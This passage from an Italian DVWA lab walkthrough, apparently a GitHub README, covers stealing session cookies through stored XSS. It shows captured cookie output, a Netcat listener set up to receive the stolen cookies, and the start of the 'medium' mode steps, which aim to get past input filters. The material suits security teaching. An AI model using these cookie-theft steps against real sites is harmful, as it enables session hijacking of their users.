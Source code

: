 5. **Verifica i Cookie su Kali Linux**:
   - Sul terminale di Kali Linux, dovresti vedere i cookie della sessione, ad esempio:
     ```
     PHPSESSID=abcdef1234567890; security=low
     ```
![XSSLow](./Screenshots/XSSLow.png)


## 🔍 **Parte 2: XSS Persistente in Modalità Medium**

### 🎯 **Obiettivo**
Aggirare i filtri di input e sfruttare la vulnerabilità XSS per ottenere i cookie della sessione.

### 📝 **Passaggi**

1. **Configura il Server di Ascolto su Kali Linux**:
   - Utilizza lo stesso comando di Netcat:
     ```bash
     nc -lvnp 4444
     ```

2. **Accedi a DVWA**:
   - Vai alla sezione **XSS Persistente**:
     ```
     http://192.168.50.3/dvwa/vulnerabilities/xss_r/
     ```
